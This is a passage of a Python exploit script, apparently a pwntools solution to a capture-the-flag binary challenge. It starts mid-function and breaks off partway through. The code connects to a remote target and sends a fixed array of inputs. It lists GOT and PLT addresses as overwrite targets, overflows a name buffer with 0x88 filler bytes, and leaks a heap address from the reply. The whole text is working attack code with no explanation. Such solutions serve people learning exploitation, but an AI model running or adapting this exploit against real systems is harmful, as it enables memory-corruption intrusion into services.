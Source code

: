 ```
    return paddata;
def writearray(arr,e):
    for i in range(len(arr)):
        if i<e:
            writeline(100);
        elif i!=len(arr)-1:
            writeline(arr[i]);
        else:
            writeline(arr[i]);


def attack(ip=0):
    global io
    if ip != 0:
        io = remote(ip,port)
    payload_arr=[[3,0,37,20,12,3,88,18,56,13],\
                 [31,93,17,58,6,15,98,33,27,73],\
                 [84,43,39,45,69,54,99,60,0,92],\
                 [27,56,92,16,28,5,20,68,23,28],\
                 [81,6,73,98,65,80,66,15,13,45],\
                 [88,49,89,79,94,10,33,46,70,86],\
                 [38,50,42,30,66,70,87,38,39,62],\
                 [66,72,69,40,71,86,20,89,53,85],\
                 [34,42,34,75,73,28,85,7,74,56],\
                 [93,12,58,87,95,24,9,82,63,0],\
                 [45,81,73,66,21,44,52,41,33,5],\
                 [26,19,99,12,95,73,41,80,32,67],\
                 [88,77,32,46,64,27,23,73,61,86],\
                 [74,58,67,47,76,41,43,80,34,28],\
                 [38,13,47,37,25,42,62,18,75,46],\
                 [86,63,23,18,10,87,97,33,13,10],\
                 [71,87,21,90,34,97,31,29,78,18],\
                 [57,16,31,4,5,56,99,68,27,74],\
                 [66,13,37,90,83,99,29,32,84,42],\
                 [42,7,29,63,50,15,13,33,44,91],\
                 [51,53,59,82,10,64,91,9,84,18],\
                 [35,51,83,24,41,66,24,22,50,60],\
                 [65,44,68,46,60,70,62,73,3,58],\
                 [16,55,64,75,89,74,39,80,35,24],\
                 [50,70,27,85,94,20,3,70,42,53],\
                 [83,7,98,3,6,58,73,68,83,76],\
                 [78,99,31,42,74,21,16,65,53,51],\
                 [41,56,73,68,41,20,40,45,42,83],\
                 [50,25,42,48,28,48,58,1,68,41],\
                 [78,47,92,61,89,66,34,58,84,88]]
    
    
    exit_got=0x602078
    main=0x40091D
    srand_got=0x602048
    scanf_got=0x602070
    scf_got=0x602020
    puts_got=0x602018
    ret=0x400BA1
    printf_plt=0x400770
    writearray(payload_arr[0],0);
    write("A"*0x88);
    readuntil("your name is:"+"A"*0x88)
    writearray(payload_arr[1],1);
    write("B"*0x88);
    readuntil("B"*0x88);
    heapaddr=readuntil("\n")[:-1];
    heapaddr+=(8-len(heapaddr))*"\x00";
```